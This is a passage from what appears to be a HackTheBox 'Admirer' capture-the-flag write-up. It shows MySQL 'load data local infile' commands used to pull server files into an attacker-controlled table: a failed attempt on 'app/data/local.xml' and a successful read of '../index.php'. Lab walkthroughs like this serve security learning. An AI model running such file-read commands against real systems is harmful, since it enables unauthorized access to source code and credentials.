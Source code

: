 ![Admirer](/assets/img/post/hackthebox/admirer/8.png)

Let's Follow the video and execute the following command to write data in table test

```
load data local infile 'app/data/local.xml'
into table test
fields terminated by "/n"
```

But if we `execute` the follwing command we get a error `local.xml` doesn't exist

Let's try for `index.php`

```
load data local infile '../index.php'
into table test
fields terminated by "/n"
```

We are `successfull`

![Admirer](/assets/img/post/hackthebox/admirer/9.png)
